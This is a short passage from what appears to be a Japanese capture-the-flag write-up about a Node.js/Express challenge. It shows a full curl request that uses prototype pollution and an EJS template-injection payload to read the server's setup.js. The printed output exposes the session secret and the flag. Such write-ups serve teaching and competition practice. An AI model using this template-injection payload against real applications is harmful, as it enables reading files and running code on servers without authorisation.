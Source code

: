 ```
$ curl -X POST -g -b 'connect.sid=s%3AdkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3.jhR1fQpcYUKzWOv0UETajIYP2TCEowbbZBsXQ1Lxvow' 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge[]=d0wnth3r3&neworld=7777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&lord=a&rord=ricksundefined&worldname=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&component=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&weired=1e-3&st[]=1&st[]=3&ar[]=3&ar[]=7&fastfood={"__proto__":{"food":"Makloub"}}&view_letter=dkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3/a' -d 'letter_name=a.ejs' -d 'letter=<%- global.process.mainModule.require("fs").readFileSync("setup.js").toString() %>'
#!/usr/bin/node

const express = require("express");
const session = require("express-session");
const bodyParser = require('body-parser')
const FileStore = require('session-file-store')(session);
const path = require("path");
const fs = require("fs");
const main = require(path.join(__dirname, "main"));

// Poseidon{Wh4t_@_w0nd3rfu1_wORlD_R1ck}
const app = express();
app.set("views", path.join(__dirname, "letters"));
app.set("view engine", "ejs");
app.use(bodyParser.urlencoded({ extended: false }));
app.use(session({
        resave: false,
        store: new FileStore({path: path.join(__dirname, "ricksess")}),
        saveUninitialized: true,
        secret: "5uckMyM0us3M0r7y"
}));
main(app, fs, path);

app.listen(6565, () => {
        console.log("Challenge Started On Port: 6565.");
});
```

フラグが得られました。

```
Poseidon{Wh4t_@_w0nd3rfu1_wORlD_R1ck}
```